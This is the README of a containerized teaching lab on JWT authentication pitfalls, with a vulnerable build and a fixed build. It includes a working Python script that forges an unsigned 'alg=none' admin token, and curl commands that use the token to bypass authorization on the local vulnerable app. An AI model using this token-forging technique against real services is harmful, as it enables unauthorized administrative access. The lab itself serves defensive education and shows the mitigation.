

# Web Exploitation Lab — JWT Authentication Pitfalls

A containerized security lab demonstrating common JWT authentication and authorization flaws, including `alg=none` acceptance and insecure trust of user-controlled claims.

The project includes both intentionally vulnerable and remediated implementations to illustrate:
- authentication trust boundaries
- authorization bypass risks
- secure JWT validation practices
- defensive engineering patterns

Designed for AppSec, DevSecOps, and backend security learning.

This lab ships two builds:

- **vulnerable**: accepts unsafe tokens (including `alg=none`) and trusts user-controlled claims
- **fixed**: enforces algorithm + signature verification + claim validation and does not trust role from the token

## Threat model / disclaimer

- Educational and defensive only.
- Run locally with Docker in a controlled environment.
- The goal is to understand trust boundaries in auth systems and validate mitigations.

## What’s running

A single web app with:

- `POST /login` — issues a JWT for a user
- `GET /me` — shows current identity
- `GET /admin` — admin-only endpoint



## Core idea (trust boundary)

JWTs are **untrusted client input** until verified. The trust boundary is:

`Bearer token from client` → **verification & validation** → `identity + permissions`

In the vulnerable build, the app crosses that boundary incorrectly.

## Attack flow (vulnerable build)

1. Attacker crafts an unsigned token with header `{"alg":"none"}` and payload `{"role":"admin"}`.
2. App accepts the token without signature verification.
3. App authorizes access based on the token’s `role` claim.
4. Attacker reaches `/admin`.

## Impact → Root cause → Mitigation (executive summary)

**Impact**
- AuthZ bypass: attacker gains access to admin-only routes/data.

**Root cause**
- Treating JWT contents as trustworthy without strict verification.
- Trusting user-controlled claims (like `role`) for authorization.

**Mitigation (fixed build)**
- Enforce algorithms (reject `none`) and verify signatures.
- Validate claims (`iss`, `aud`, expiry).
- Make authorization decisions from server-side state (user/role store), not from token claims.

---

## Folder structure

```
web-exploitation-jwt-auth-pitfalls/
  README.md
  probe_jwt.sh
  vulnerable/
    Dockerfile
    app/
      package.json
      server.js
  fixed/
    Dockerfile
    app/
      package.json
      server.js
```

---

## Run from GHCR

```bash
# Vulnerable (http://127.0.0.1:8080)
docker run --rm -it \
  --name jwt-auth-vuln \
  -p 8080:8000 \
  ghcr.io/debaa17/cybersecurity-labs/jwt-auth-pitfalls:vuln

# Fixed (http://127.0.0.1:8081)
# Note: fixed build requires a strong JWT_SECRET.
docker run --rm -it \
  --name jwt-auth-fixed \
  -e JWT_SECRET='change-me-to-a-long-random-secret' \
  -p 8081:8000 \
  ghcr.io/debaa17/cybersecurity-labs/jwt-auth-pitfalls:fixed
```

---

## Verify in the web UI + terminal (recommended)

### 1) Baseline behavior (legit token)

Vulnerable (`http://127.0.0.1:8080/`):

- Log in as `alice/password1` and copy the token from the page.
- In a terminal:

```bash
TOKEN='<paste token from UI>'
curl -sS -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8080/me
curl -sS -i -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8080/admin
```

Expected:

- `/me` returns `ok: true` and `role: user`
- `/admin` returns HTTP `403` (not admin)

Fixed (`http://127.0.0.1:8081/`):

- Log in as `alice/password1` and copy the token.

```bash
TOKEN='<paste token from UI>'
curl -sS -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8081/me
curl -sS -i -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8081/admin
```

Expected:

- `/admin` returns HTTP `403` (role is decided server-side)

### 2) Exploit (vulnerable): craft an unsigned `alg=none` admin token

Generate a forged token locally (no signature):

```bash
python3 - <<'PY'
import base64, json, time

def b64url(obj):
    raw = json.dumps(obj, separators=(',', ':')).encode()
    return base64.urlsafe_b64encode(raw).decode().rstrip('=')

header = {"alg": "none", "typ": "JWT"}
payload = {
  "sub": "alice",
  "role": "admin",
  "iss": "cyberlabs",
  "aud": "cyberlabs",
  "exp": int(time.time()) + 3600,
}

print(f"{b64url(header)}.{b64url(payload)}.")
PY
```

Use it against the vulnerable build:

```bash
FORGED='<paste python output>'
curl -sS -i -H "Authorization: Bearer $FORGED" http://127.0.0.1:8080/admin
```

Expected:

- Vulnerable returns HTTP `200` (authorization bypass)

Try the same forged token against the fixed build:

```bash
curl -sS -i -H "Authorization: Bearer $FORGED" http://127.0.0.1:8081/admin
```

Expected:

- Fixed returns HTTP `401` (rejects `alg=none` / invalid signature)
